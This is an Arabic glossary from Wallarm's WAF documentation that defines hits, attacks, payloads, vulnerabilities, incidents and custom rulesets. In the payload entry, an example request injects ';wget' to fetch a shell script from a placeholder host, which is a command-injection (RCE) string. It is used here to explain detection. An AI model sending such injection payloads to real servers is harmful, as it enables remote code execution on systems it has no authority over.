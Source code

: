 # المعجم

يغطي المعجم الكيانات الأساسية لـ Wallarm لتوفير فهم أفضل للمنصة.

## الضربة

الضربة هي طلب ضار مُتسلسل (الطلب الضار الأصلي والبيانات الوصفية المضافة بواسطة عقدة التصفية)، مثل:

![مثال على ضربة](images/user-guides/events/analyze-attack-raw.png)

[تفاصيل عن معلمات الضربة](user-guides/events/analyze-attack.md#analyze-requests-in-an-event)

## الهجوم

الهجوم هو ضربة واحدة أو عدة ضربات مجمعة حسب الخصائص التالية:

* نفس نوع الهجوم، المعامل الذي يحتوي الحمولة الضارة، والعنوان الذي تم إرسال الضربات إليه. قد تأتي الضربات من نفس العناوين IP أو من عناوين مختلفة وتحتوي على قيم مختلفة للحمولات الضارة ضمن نوع هجوم واحد.

    طريقة تجميع الضربات هذه أساسية وتطبق على جميع الضربات.

* نفس عنوان IP المصدر إذا تم تفعيل [تجميع الضربات حسب عنوان IP المصدر](user-guides/events/analyze-attack.md#grouping-of-hits). قد تختلف قيم معلمات الضربات الأخرى.

    طريقة تجميع الضربات هذه تعمل لجميع الضربات عدا تلك التي تنتمي إلى أنواع الهجوم Brute force، Forced browsing، BOLA (IDOR)، Resource overlimit، Data bomb وVirtual patch.

    إذا تم تجميع الضربات بهذه الطريقة، فإن زر [**وسم كإيجابية كاذبة**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) وخيار [التحقق النشط](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) غير متاحين للهجوم.

طرق تجميع الضربات المذكورة لا تستبعد بعضها البعض. إذا كانت الضربات تحمل خصائص كلتا الطريقتين، فإنها جميعًا تُجمّع في هجوم واحد.

مثال على هجوم يتضمن ضربة واحدة:

![هجوم بضربة واحدة](images/glossary/attack-with-one-hit-example.png)

مثال على هجوم يتضمن العديد من الضربات:

![هجوم بعدة ضربات](images/glossary/attack-with-several-hits-example.png)

## الحمولة الضارة

جزء من الطلب الأصلي يحتوي على العناصر التالية:

* علامات الهجوم المكتشفة في طلب. إذا تم اكتشاف علامات هجوم عدة تعبر عن نفس نوع الهجوم في طلب، سيتم تسجيل العلامة الأولى فقط في الحمولة.
* سياق علامة الهجوم. السياق هو مجموعة من الرموز التي تسبق وتغلق علامات الهجوم المكتشفة. نظرًا لأن طول الحمولة محدود، يمكن حذف السياق إذا كانت علامة الهجوم بطول الحمولة كاملة.

على سبيل المثال:

* الطلب:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* الحمولة الضارة:

    ```bash
    ;wget+http://s
    ```

    في هذه الحمولة، `;wget+` هي علامة الهجوم [RCE](attacks-vulns-list.md#remote-code-execution-rce) والجزء الآخر من الحمولة هو سياق علامة الهجوم.

نظرًا لأن علامات الهجوم لا تُستخدم لاكتشاف [الهجمات السلوكية](about-wallarm/protecting-against-attacks.md#behavioral-attacks)، فإن الطلبات المرسلة جزءًا من الهجمات السلوكية لها حمولات فارغة.

## الثغرة الأمنية
الثغرة الأمنية هي خطأ يحدث بسبب الإهمال أو عدم كفاية المعلومات عند بناء أو تنفيذ تطبيق ويب يمكن أن يؤدي إلى مخاطر أمن المعلومات.

مخاطر أمن المعلومات هي:

* الوصول غير المصرح به إلى البيانات؛ مثل، الوصول لقراءة وتعديل بيانات المستخدم.
* رفض الخدمة.
* تلف البيانات وغيرها.

يمكن استخدام حركة المرور على الإنترنت لاكتشاف الثغرات الأمنية، وهو ما تقوم به Wallarm، من بين وظائف أخرى.

## الحادث الأمني

الحادث الأمني هو وقوع استغلال لثغرة. الحادث هو [هجوم](#attack) موجه نحو ثغرة مؤكدة.

الحادث، مثل الهجوم، هو كيان خارجي عن نظامك وهو خاصية الإنترنت الخارجي، لا النظام نفسه. على الرغم من أن الهجمات الموجهة نحو الثغرات الموجودة هي أقلية، إلا أنها تمثل أقصى أهمية من حيث أمن المعلومات. تكتشف Wallarm تلقائيًا الهجمات الموجهة نحو الثغرات الموجودة وتعرضها ككائن منفصل - حادث.

## الذاكرة المؤقتة الدائرية
الذاكرة المؤقتة الدائرية هي بنية بيانات تستخدم ذاكرة ثابتة الحجم واحدة كأنها متصلة من نهاية إلى نهاية.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Circular_buffer).

## مجموعة القواعد الخاصة (المصطلح السابق LOM)

مجموعة القواعد الخاصة هي مجموعة من قواعد الأمان المترجمة التي يقوم عقد Wallarm بتنزيلها من سحابة Wallarm.

تتيح لك القواعد الخاصة إعداد قواعد فردية لمعالجة الحركة، مثل:

* إخفاء البيانات الحساسة قبل الرفع إلى سحابة Wallarm
* إنشاء مؤشرات هجومية بناءً على regexp
* تطبيق تصحيح افتراضي يحجب الطلبات التي تستغل ثغرة نشطة
* تعطيل اكتشاف الهجوم في طلبات معينة، إلخ.

مجموعة القواعد الخاصة ليست فارغة بشكل افتراضي، فهي تحتوي على القواعد المُنشأة لجميع العملاء المُسجلين في السحابة، مثل قاعدة وضع التصفية بالقيمة من علامة التبويب [**Settings → General**](admin-en/configure-wallarm-mode.md#setting-up-the-general-filtration-rule-in-wallarm-console).

[المزيد من التفاصيل حول مجموعات القواعد الخاصة](user-guides/rules/rules.md)

## الطلب الغير صالح
طلب تم فحصه بواسطة عقدة التصفية ولا يتطابق مع قواعد LOM.

## الوكيل العكسي
الوكيل العكسي هو نوع من خوادم الوكيل التي تسترد الموارد نيابةً عن العميل من خادم وتعيد الموارد إلى العميل كما لو أنها نشأت من خادم الويب نفسه.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Reverse_proxy).

## سلطة الشهادة
سلطة الشهادة هي كيان يصدر شهادات رقمية.
[انظر ويكيبيديا](https://en.wikipedia.org/wiki/Certificate_authority).